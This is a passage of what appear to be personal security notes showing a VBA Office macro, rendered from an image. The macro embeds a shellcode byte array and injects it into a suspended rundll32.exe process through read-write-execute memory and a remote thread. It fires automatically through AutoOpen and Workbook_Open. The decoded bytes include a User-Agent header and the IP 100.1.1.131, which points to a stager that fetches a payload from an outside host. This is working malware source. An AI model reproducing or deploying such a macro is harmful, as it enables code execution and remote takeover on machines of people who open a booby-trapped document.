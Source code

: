 ```vbscript
92,-39,-88,-5,79,-69,-88,-9,27,40,-87,7,111,29,13,2,76,-49,-60,-4,-47,-74,-64,20,-27,-74,-112,45,-88,-61,-3,103,-19,11,-121,23,69,65,106,-75, _
87,0,85,115,101,114,45,65,103,101,110,116,58,32,77,111,122,105,108,108,97,47,52,46,48,32,40,99,111,109,112,97,116,105,98,108,101,59,32,77, _
83,73,69,32,56,46,48,59,32,87,105,110,100,111,119,115,32,78,84,32,53,46,49,59,32,84,114,105,100,101,110,116,47,52,46,48,59,32,81,81, _
68,111,119,110,108,111,97,100,32,55,51,51,59,32,73,110,102,111,80,97,116,104,46,50,41,13,10,0,-111,-101,90,56,32,-115,-23,-46,-92,90,98,26, _
93,-84,-29,-103,28,86,81,-101,-43,88,-56,-37,-28,-52,75,-99,60,-123,-63,-92,109,23,-13,71,32,124,-3,-51,72,6,28,32,21,23,100,-38,9,121,99,114, _
-26,54,-2,84,45,-95,-32,90,-108,20,-74,50,66,116,-113,-28,-31,49,-55,-23,-81,120,53,32,-127,31,8,23,20,-80,20,-50,-122,113,-19,5,67,-35,72,-38, _
108,-128,-52,-46,30,-35,49,78,-62,20,-63,-124,-116,-41,-100,-95,-49,117,82,83,49,-77,35,103,6,-122,77,-57,106,-33,-46,36,-76,4,-30,-23,18,119,54,-121, _
-54,119,0,-81,-125,-46,87,32,-110,-33,-103,52,-71,-116,-15,25,101,-37,108,51,15,88,-6,-33,68,-119,-97,-8,-24,7,6,-30,-128,1,102,-9,-41,33,34,59, _
12,-124,78,3,-105,-100,-84,-105,-52,88,12,113,124,-116,69,82,-66,-124,63,96,-36,38,69,14,-111,0,104,-16,-75,-94,86,-1,-43,106,64,104,0,16,0,0, _
104,0,0,64,0,87,104,88,-92,83,-27,-1,-43,-109,-71,0,0,0,0,1,-39,81,83,-119,-25,87,104,0,32,0,0,83,86,104,18,-106,-119,-30,-1,-43, _
-123,-64,116,-58,-117,7,1,-61,-123,-64,117,-27,88,-61,-24,-87,-3,-1,-1,49,48,48,46,49,46,49,46,49,51,49,0,0,1,-122,-96)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub

```

![image-20240701162942046](http://cdn.ayusummer233.top/DailyNotes/202407011629222.png)

---
